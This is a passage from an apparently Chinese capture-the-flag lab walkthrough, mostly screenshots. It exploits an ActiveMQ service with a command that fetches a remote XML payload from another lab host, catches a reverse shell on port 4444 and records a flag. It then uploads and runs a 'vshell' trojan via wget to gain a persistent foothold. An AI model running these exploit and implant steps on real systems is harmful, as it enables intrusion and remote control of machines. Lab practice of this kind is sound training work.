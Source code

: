   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicicaxkFc26voSaba0zMWWUAyQbUIMy63H9EL0o8tfzRjG99xsib67PiaVA/640?wx_fmt=png&from=appmsg "")  
  
  
然后再利用poc  
  

```
proxychains java -jar activemq-exp.jar 10.10.10.70 61616 xml http://10.10.10.60/poc.xml
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hic1UHNbDZFRpZ2Yc8DbicGqicjHQDm1r0T6KAKLuXeZe3faVhyK2cazpEA/640?wx_fmt=png&from=appmsg "")  
  
  
记得在10.10.10.60上监听4444端口  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hictQTWfwurrWuiaQCIpG0yIpKvJXa3mziaiadCqlrsfxtzPumxkOQrmkrmw/640?wx_fmt=png&from=appmsg "")  
  
  
然后执行poc  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicMLxOPicFiaaCLNzQoInP0upfWf6AKYoRziaZEuDSYUOib0TXQJuLMTqNJA/640?wx_fmt=png&from=appmsg "")  
  
  
成功反弹，在根目录下获得flag  
  

```
flag7{5b458b1b-6668-42f7-9307-657941f3a0b0}
```

  
  
# 第四层  
  
  
现在要利用反弹的shell进行一个vshell的上线，现在就是先生成正向的木马，进行上传到刚才10.10.10.60的靶机上  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hiczAlN2tfnGyMr7b7XSibCPFvp1JGGHOa4KqlqViaGM7sUE1zY1Cm8RQvQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后再反弹的shell中进行wget,并执行文件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicZwOAbSTxw9ul9iaxAO0g81FJaRyASusCEUMd8qf2TLmV8wiaCHqysOQQ/640?wx_fmt=png&from=appmsg "")  
  
  
执行以后现在就是，去正向连接  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicuHiasoaHU0XkYdcP77rcliahksoVz0G7q3LoCf2XUgetBSoI5kJIj8Aw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUbia0WiaeC2bECWD67tGv0hicbuvJdX8r0HB4Tn66sc7TWOHB4aCetxIaWThRwD138K6y7GpQGzppUQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功上线，老样子，进行网卡收集以及扫描  
  
  